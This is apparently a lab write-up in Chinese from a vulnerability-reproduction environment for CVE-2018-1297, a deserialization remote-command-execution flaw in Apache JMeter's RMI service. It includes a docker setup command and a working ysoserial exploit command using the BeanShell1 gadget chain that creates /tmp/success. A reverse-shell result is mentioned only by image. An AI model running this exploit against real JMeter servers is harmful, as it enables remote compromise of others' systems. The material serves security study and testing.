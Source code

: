 # Jmeter RMI 反序列化命令执行漏洞（CVE-2018-1297）

Apache JMeter是美国阿帕奇（Apache）软件基金会的一套使用Java语言编写的用于压力测试和性能测试的开源软件。其2.x版本和3.x版本中存在反序列化漏洞，攻击者可以利用该漏洞在目标服务器上执行任意命令。

## 漏洞环境

运行漏洞环境：

```
docker compose up -d
```

运行完成后，将启动一个RMI服务并监听1099端口。

## 漏洞复现

直接使用ysoserial即可进行利用：

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit your-ip 1099 BeanShell1 'touch /tmp/success'
```

我们使用的是BeanShell1这条利用链。使用`docker compose exec jmeter bash`进入容器，可见`/tmp/success`已成功创建：

![](1.png)

反弹shell:

![](2.png)
